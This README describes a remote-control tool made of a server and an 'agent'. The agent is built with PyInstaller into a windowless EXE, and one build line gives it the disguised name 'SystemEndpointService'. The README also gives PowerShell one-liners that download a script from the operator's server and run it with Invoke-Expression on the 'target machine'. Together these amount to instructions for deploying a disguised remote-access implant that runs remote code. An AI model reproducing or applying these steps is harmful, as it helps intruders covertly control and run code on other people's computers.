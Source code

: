 



## Installation
Clone the repository and then install virtual environment:
```bash
python3 -m venv venv
```
Next, activate virtual environment:
```bash
source venv/bin/activate  # On macOS/Linux
venv\Scripts\activate     # On Windows
```
Then, install all the required packages:
```bash
pip install -r requirements.txt
```

## Server
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

Run the server:
```bash
python server/server.py
```

## Agent
### Run agent from python file
```bash
python agent/agent.py
```
### Install EXE
```bash
pyinstaller --onefile --noconsole --icon=cog.ico agent.py
```

### Install EXE (with a different name)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName agent.py
```

### Install EXE (with a name + a custom version file)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName --version-file=version.txt agent.py
```

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/script.ps1").Content) )
```

Change wallpaper to cat image:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/wallpaper.ps1").Content) )
```

Amilnen istifade elediyimiz pyinstaller (exe duzelden):
```
python -m PyInstaller --onefile --noconsole --icon=cog.ico --name=SystemEndpointService agent.py
```
